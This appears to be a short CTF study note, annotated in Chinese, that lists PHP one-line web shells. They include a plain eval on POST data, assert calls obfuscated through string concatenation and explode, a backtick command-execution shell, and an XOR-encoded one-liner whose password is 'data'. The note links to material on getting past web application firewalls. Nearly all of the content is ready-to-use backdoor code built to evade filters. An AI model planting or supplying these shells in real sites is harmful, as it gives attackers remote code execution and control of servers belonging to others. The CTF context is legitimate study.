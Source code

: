- ```php
  <?php eval($_POST['data']);?>
  
  @$A='Acc';$p='_';$o='PO';$s='S';$t='T';$a='as';$b='sert';$Acc=$a.$b;@${$A}(${$p.$o.$s.$t}['s']);
  
  $poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s'])
  
  <?=`$_POST[data]`?>
  
  # ↓ 真·一句话 POST  密码data
  ('([([@@'^'["[/%-')(${'"-/(/'^'}}`{{'}['@^^^'^'$?*?']);
  
  ```
- 构建技巧： [[CTF/PHP/WAF绕过]]
-